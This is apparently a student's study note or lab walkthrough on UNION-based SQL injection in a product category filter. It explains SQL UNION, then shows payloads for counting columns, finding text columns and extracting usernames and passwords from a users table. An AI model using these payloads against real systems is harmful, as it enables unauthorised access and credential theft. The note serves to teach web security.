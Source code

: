 # SQL injection - Product category filter

## end goal: determine the number of column return by the query

## background knowledge(UNION in SQL)

```SQL
table1   |    table2
 a | b   |    c | d
--------------------
  1,2    |     3,4
  2,3    |     4,5
--------------------
Query №1: SELECT a, b FROM table1
result №1: 1, 2
           2, 3

Query №2: SELECT a, b FROM table1 UNION SELECT c, d FROM table2;
result №2: 1, 2
           3, 4
           2, 3
           4, 5
```

## Rules using UNION operator

- The number and the order of the columns must be the same in all queries
- The data types must be compatible

### let's say that we have sql vunerability in table1. And we want to extract data from other tables such like USERS

the SQL injection will be look's like:
`SELECT a, b FROM table1 UNION SELECT username, password FROM USERS;`

## SQL injection attack with UNION

### step 1 - find number of columns

#### way #1

`SELECT ? FROM table1 UNION SELECT null;`
if we got an error then we use incorrect number of columns so we add them until we see the 200 response code
`SELECT ? FROM table1 UNION select NULL, NULL[and more and more NULL];`

#### way #2

`SELECT a, b FROM table1 ORDER BY 1[2,3...]`
allow us iteratively ingress number and find the number-of-columns easy

### step 2 - find columns that contains varchar

so we just check every value is it string(varchar) or not
`SELECT a, b FROM table1 UNION SELECT 'a', NULL;`
if we got an error then we try put 'a' in different column
`SELECT a, b FROM table1 UNION SELECT NULL, 'a';`
if it returns ours string 'a' then sql injection successful

### step 3 - use exploit to get admin password or etc

if we know what exactly column is varchar value then we can use it column to get usernames and passwords
`SELECT a, b FROM table1 UNION SELECT username || '~' || password from users;`
we use `||` sign that means CONCAT in most SQL databases to concat usernames and password in one column

